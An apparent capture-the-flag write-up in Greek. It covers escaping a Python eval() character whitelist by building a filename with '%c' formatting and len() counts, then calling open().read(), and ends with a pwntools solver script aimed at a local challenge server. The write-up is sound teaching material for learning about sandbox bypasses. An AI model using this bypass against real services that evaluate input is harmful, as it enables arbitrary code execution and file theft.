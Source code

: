 ## 2 Gold Doubloons writeup

| Δοκιμασία | 2 Gold Doubloons |
| :------- | :----- |
| Δυσκολία | Δύσκολη |
| Κατηγορία | Διάφορα (Miscellaneous) |
| Λύσεις | 14 |
| Πόντοι | 389 |

### Περιγραφή Δοκιμασίας

H περιγραφή της δοκιμασία (`Όχι 1... 2`) δεν μας βοηθάει... Κοιτάζοντας τα αρχεία βλέπουμε πως έχουμε:
 - requirements.txt - αρχείο με βιβλιοθήκες που χρειάζονται
 - server.py - αρχείο με τον κώδικα που τρέχει στον server

Παράλληλα μας δίνεται πως το αρχείο που έχει το flag ονομάζεται `S3cr3t_Fl4g.txt`.

Από την ανάλυση του κώδικα, βλέπουμε πως έχουμε ένα whitelisted `eval()` με έλεγχο εισόδου (input sanitization).

```python
# Awwwww no flag? :'( 
whitelist = "e.d',no)p(a%rcl"
 
# Awwww input sanitization :'( 
Anti_Cheating = lambda check: any(c not in whitelist for c in check)

# Awww spongebob reference :'( 
def Magic_Conch_shell():
	Ev4l_m3_pL3a5e = input("Oh magic conch shell > ")
	if Anti_Cheating(Ev4l_m3_pL3a5e):
		print('Th3 Sh3ll h45 Sp0k3n: Nothing!')
		exit()
	print(f'Th3 Sh3ll h45 Sp0k3n: {eval(Ev4l_m3_pL3a5e)}')

while True:
	Magic_Conch_shell()
```

## Στόχος

Ο στόχος φαίνεται να είναι να καταφέρουμε να εκτελέσουμε κώδικα Python με την χρήση του `eval`. Ωστόσο, για να το καταφέρουμε αυτό θα πρέπει να ξεπεράσουμε το `Anti_Cheating`, το οποίο μας αφήνει να χρησιμοποιήσουμε μόνο μερικούς χαρακτήρες (whitelist):

```python
whitelist = "e.d',no)p(a%rcl"
```

Που σημαίνει πως:

 - Δεν μπορούμε να χρησιμοποιήσουμε χαρακτήρες αλφάβητου πέρα από `a`, `c`, `d`, `e`, `l`, `n`, `o`, `p`, `r`.
 - Δεν έχουμε πρόσβαση σε ειδικούς χαρακτήρες εκτός από `.`, `'`, `,`, `)`, `(`, `%`.


### Στρατηγική Εκμετάλλευσης Αδυναμιών

Ο στόχος μας είναι να βρούμε ένα τρόπο να κωδικοποιούμε οποιοδήποτε κώδικα θέλουμε με την χρήση συμβόλων εντός των περιορισμών του `Anti_Cheating`.

Μπορούμε να χρησιμοποιούμε τη μορφοποίηση συμβολοσειρών της Python με `%c`, η οποία μας επιτρέπει να κατασκευάσουμε χαρακτήρες με βάση τους ASCII αριθμούς τους, για παράδειγμα:

```python
'%c%c%c' % (65, 66, 67) # ABC
```

Δυστυχώς δεν μπορούμε να χρησιμοποιήσουμε αριθμούς. Αλλά, με την χρήση του `len('aaaa...')`, μπορούμε να κατασκευάσουμε ακέραιους αριθμούς, για παράδειγμα:

```python
'%c%c%c' % (len('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'), len('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'), len('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')) # ABC
```

Τέλος, μπορούμε να διαβάσουμε αρχεία με την χρήση του:
```python
open('<filename-here>').read()
```

### Λύση (Solver Script)

Συνδυάζοντας όλα τα παραπάνω μαζί και με την χρήση των pwntools (για την επικοινωνία με τον server) σε ένα script:

```python
from pwn import *

r = remote("127.0.0.1","1337")

whitelist = 'e")n%(,lc'

target = "S3cr3t_Fl4g.txt"

payload = f"'{'%c'*len(target)}'%("
for char in target:
	payload += f"len('{ord(char)*'e'}'),"

final = f"open({payload[:-1]})).read()"
r.sendlineafter(b"> ", final.encode())
print(r.recvline().decode().strip())
```
